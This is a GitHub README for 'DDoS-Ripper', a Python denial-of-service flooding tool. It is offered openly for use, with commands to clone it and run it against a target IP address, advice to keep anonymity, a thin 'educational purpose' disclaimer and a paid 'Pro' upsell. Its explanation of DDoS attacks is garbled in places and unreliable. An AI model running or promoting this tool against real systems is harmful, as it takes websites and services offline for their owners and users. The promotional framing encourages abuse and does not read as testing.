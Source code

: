 # DDoS-Ripper

# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

`$ git clone https://github.com/palahsu/DDoS-Ripper`

`$ cd DDoS-Ripper`

`$ ls`

`$ python3 DRipper.py`

`$ python3 DRipper.py -s [ip Address] -t 135`

`$ example: python3 DRipper.py -s 0.00.00.00 -t 135`

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

# Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.

## Buy DDoS-Ripper Pro ▶ Only 2$
 [![paypal](https://telegra.ph/file/5548026a816dda3b6d143.jpg)](https://paypal.me/AbirHasan2005)

# Modified by @Engine Ripper

For any kind of help, support, suggetion and request ask in my Telegram Group:
https://t.me/AD0000000

## Follow on:
<p align="left">
<a href="https://github.com/palahsu"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://twitter.com/palashgamer"><img src="https://img.shields.io/badge/Twitter-Follow%20on%20Twitter-informational.svg?logo=twitter"></a>
</p><p align="left">
<a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>
</p><p align="left">
<a href="https://instagram.com/palashgamer"><img src="https://img.shields.io/badge/Instagram-Follow%20on%20Instagram-important.svg?logo=instagram"></a>
</p>
 
